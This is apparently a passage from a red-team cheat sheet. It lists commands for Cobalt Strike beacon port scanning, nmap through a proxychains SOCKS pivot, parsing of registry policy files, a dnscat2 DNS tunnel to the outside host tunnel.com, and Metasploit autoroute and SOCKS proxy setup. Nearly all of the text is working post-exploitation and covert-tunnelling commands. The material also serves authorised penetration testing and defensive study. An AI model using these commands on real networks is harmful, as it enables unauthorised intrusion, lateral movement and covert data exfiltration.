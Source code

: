 ```
```

#### Port scanning

CS

```
# Discovered Targets can view found: 'View -> Targets'
beacon> portscan 10.0.0.0/24 22,80,135,443,445,1433,3389,5895,5896 none
[...]
```

NMAP

```
beacon> socks 1080

# edit /etc/proxychains.conf
$ proxychains3 nmap -n -sT 10.0.0.0/24 -oA nmap-st-10.0.0.0
```

#### Policies

```
PS> Import-Module C:\tools\GPRegistryPolicy\GPRegistryPolicyParser.psm1
PS> Parse-PolFile C:\Users\sysadm\Desktop\Registry.pol
```

### Socks & Port Forwards

#### DNS Tunnel via dnscat

Start dnscat2-server for tunnel.com

```
dnscat2-server tunnel.com
```

From Win10

```
dnscat-2-v0.07-client-win32.exe tunnel.com
```

#### Msf Socks Proxy

Leverage a session to create a socks proxy.

```
# auto add the route
msf> use multi/manage/autoroute
msf> set session 1
msf> exploit

# setup the socks proxy
msf> use auxiliary/server/socks_proxy
msf> set version 4a
msf> exploit -j
```
